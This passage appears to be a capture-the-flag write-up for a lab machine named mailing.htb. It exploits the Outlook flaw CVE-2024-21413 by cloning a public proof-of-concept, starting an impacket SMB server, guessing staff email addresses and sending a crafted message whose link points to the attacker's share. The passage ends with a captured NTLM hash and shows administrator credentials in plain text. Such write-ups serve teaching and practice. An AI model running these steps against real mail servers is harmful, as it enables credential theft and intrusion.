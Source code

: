 Knowing this, we will use google to try to find a recent vulnerability related to Windows Mail.

This led us to the following PoC:

https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

Lets get the exploit and start our attack:

```shell
git clone https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git
cd CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
```

Start a SMB server to be able to capture the hashes:

```shell
impacket-smbserver kalishare . -smb2support
```

Now we need possible valid email addresses.

On the website we found these names: Ruy Alonso, Maya Bendito, Gregory Smith.

We can try multiple format combinations, creating the following list:

```shell
ruy@mailing.htb
maya@mailing.htb
gregory@mailing.htb
ruyalonso@mailing.htb
mayabendito@mailing.htb
gregorysmith@mailing.htb
ralonso@mailing.htb
mbendito@mailing.htb
gsmith@mailing.htb
ruy.alonso@mailing.htb
maya.bendito@mailing.htb
gregory.smith@mailing.htb
r.alonso@mailing.htb
m.bendito@mailing.htb
g.smith@mailing.htb
```

After doing some tests, we will use maya@mailing.htb:

```shell
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.206\kalishare\test.txt" --subject Test
```

We will need to wait some time after sending the email to get a reply on our SMB server:

```shell
[*] User MAILING\maya authenticated successfully
[*] maya::MAILING:aaaaaaaaaaaaaaaa:4e87a3edc544aec3b90a17143c28c829:010100000000000000d0e1a12739db0102b0eea94576d407000000000100100075006100740068004e0041004b0063000300100075006100740068004e0041004b006300020010006300460046007700450079005400730004001000630046004600770045007900540073000700080000d0e1a12739db010600040002000000080030003000000000000000000000000020000052a9e57606de311007373c22787d82fad43e53bdd85c31fbd8ef8c245c7769390a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200300036000000000000000000
```
